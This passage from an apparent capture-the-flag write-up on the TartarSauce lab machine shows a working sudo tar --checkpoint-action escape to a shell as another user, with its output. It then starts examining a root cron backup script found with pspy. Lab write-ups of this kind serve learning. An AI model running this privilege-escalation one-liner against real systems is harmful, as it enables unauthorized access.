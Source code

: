 But even better, this privesc can be done in one line!

We’ll take advantage of the `tar` options for checkpoints. The `--checkpoint=x` flag tells tar to take some action every x bytes, as a progress update. The default behavior is to print a status message. However, the `--checkpoint-action` parameter allows the user to specify what action to take at a check point. So I can have it just give me a shell:

```

www-data@TartarSauce:/$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
<ll /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
onuma@TartarSauce:/$ id
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

```

### user.txt

The shell, get user flag:

```

onuma@TartarSauce:~$ wc -c user.txt
33 user.txt
onuma@TartarSauce:~$ cat user.txt
b2d6ec45...

```

## Partial Privesc: onuma –> File Read as root

As far as I know, there’s no way to exploit this box to get a root shell. But I can read files as root.

### Identify cron with pspy

[pspy](https://github.com/DominicBreuker/pspy) is my go-to for processes detection. In this case, letting `pspy32` run for a bit shows a script that runs as root every 5 minutes:

```

2018/05/29 07:56:33 CMD: UID=0    PID=24065  | /bin/bash /usr/sbin/backuperer

```

### Understanding backeruperer

The script is as follows:

```

#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up in case another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
```